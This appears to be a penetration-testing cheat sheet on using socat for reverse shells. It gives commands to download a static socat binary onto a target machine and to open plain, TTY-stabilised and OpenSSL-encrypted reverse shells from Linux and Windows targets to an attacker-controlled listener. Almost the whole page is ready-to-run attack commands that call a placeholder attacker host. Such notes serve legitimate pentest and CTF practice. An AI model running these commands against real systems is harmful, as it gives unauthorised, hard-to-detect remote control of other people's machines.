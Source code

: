 # socat

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

### Reverse shell

#### Target machine (initiate revere shell connection)

```bash
$ socat tcp:[attacker_ip]:[attacker_port] EXEC:"bash -li
```

#### Attacker machine (listening)

```bash
$ socat tcp-l:[listen_port] -
```

### Best reverse shell experience

**Target machine**

{% code title="Linux" %}
```bash
$ socat TCP:<ATTCKER>:8888 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
{% endcode %}

{% code title="Windows" %}
```sh
$ socat TCP:<ATTCKER>:8888 EXEC:"cmd.exe",pty,stderr,sigint,setsid,sane
```
{% endcode %}

**Attacker machine**

```bash
$ socat tcp-l:8888 FILE:`tty`,raw,echo=0
```



### Encrypted shell with OpenSSL

**Creating a self-signed certificate (on the attacker machine)**

```bash
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

1. `req`: Specifies to create a certificate request or certificate.&#x20;

* In this case, the `-x509` flag is specified, which indicates to create a self-signed certificate

2. `--newkeyrsa:2048`: This specifies that a new private key should be generated with the _RSA_ algorithm, using a key size of 2048 bits.

**Merge the two created files `shell.key` and `shell.crt` to the file `shell.pem`**

```bash
$ cat shell.key shell.crt > shell.pem
```

### Reverse shell

**Listen on attacker machine**

```bash
$ socat openssl-listen:<listen_port>,cert=shell.pem,verify=0 -
```

* `cert=shell.pem:` Specify to use the certificate`shell.pem`
* `verify=0`:  This tells OpenSSL to not validate the certificate&#x20;

#### Connect from the target machine

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:/bin/bash
```



### Stable encrypted reverse shell

Attacker

```bash
$ socat openssl-listen:<listen_port>,cert=<cert>,verify=0 FILE:`tty`,raw,echo=0
```

Target

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

